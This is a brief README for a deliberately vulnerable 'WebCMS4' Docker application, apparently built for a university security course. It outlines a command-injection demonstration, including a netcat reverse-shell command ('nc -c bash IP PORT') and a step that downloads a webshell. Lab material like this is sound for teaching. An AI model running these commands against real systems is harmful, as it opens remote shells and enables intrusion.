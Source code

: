 # WebCMS4 Example Vulnerable Application - Docker

Container `unsw/cs6443/webcms4` listening on `TCP 5000`

* `./start.sh` binds to `0.0.0.0:8000`

* Demonstrate command injection (submission check)
  * echo ...
  * nc -c bash IP PORT
  * wget webshell


